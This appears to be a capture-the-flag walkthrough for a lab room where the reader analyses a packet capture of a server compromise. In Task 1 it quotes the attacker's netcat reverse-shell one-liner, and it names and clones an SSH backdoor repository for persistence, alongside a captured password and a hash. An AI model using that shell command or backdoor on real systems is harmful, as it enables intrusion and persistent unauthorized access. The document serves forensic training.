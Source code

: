 # [Overpass 2 - Hacked](https://tryhackme.com/r/room/overpass2hacked)

![Overpass2-Hacked](./images/Overpass2-Hacked.png)

## Task 1 - Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing Linux Fundamentals as a bare minimum.

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

### Answer the questions below

* What was the URL of the page they used to upload a reverse shell?

	`/development/`

	![task1-development](./images/task1-development.png)

* What payload did the attacker use to gain access?

	`exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`

	![task1-payload](./images/task1-payload.png)

* What password did the attacker use to privesc?
	
	`whenevernoteartinstant`

	![task1-password](./images/task1-password.png)

* How did the attacker establish persistence?

	`https://github.com/NinjaJc01/ssh-backdoor`

	![task1-backdoor](./images/task1-backdoor.png)

* Using the fasttrack wordlist, how many of the system passwords were crackable?

	`4`

	![task1-shadow](./images/task1-shadow.png)

	![task1-john](./images/task1-john.png)

## Task 2 - Research - Analyse the code

Now that you've found the code for the backdoor, it's time to analyse it.

### Answer the questions below

* What's the default hash for the backdoor?

	`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3`

	* Clone backdoor file our machine
	
		`git clone https://github.com/NinjaJc01/ssh-backdoor`

	* Open file `main.go` 
	
		![task2-hash](./images/task2-hash.png)

* What's the hardcoded salt for the backdoor?

* What was the hash that the attacker used? - go back to the PCAP for this!

* Crack the hash using rockyou and a cracking tool of your choice. What's the password?

## Task 3 - Attack - Get back in!

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

### Answer the questions below

* The attacker defaced the website. What message did they leave as a heading?

* Using the information you've found previously, hack your way back in!

* What's the user flag?

* What's the root flag?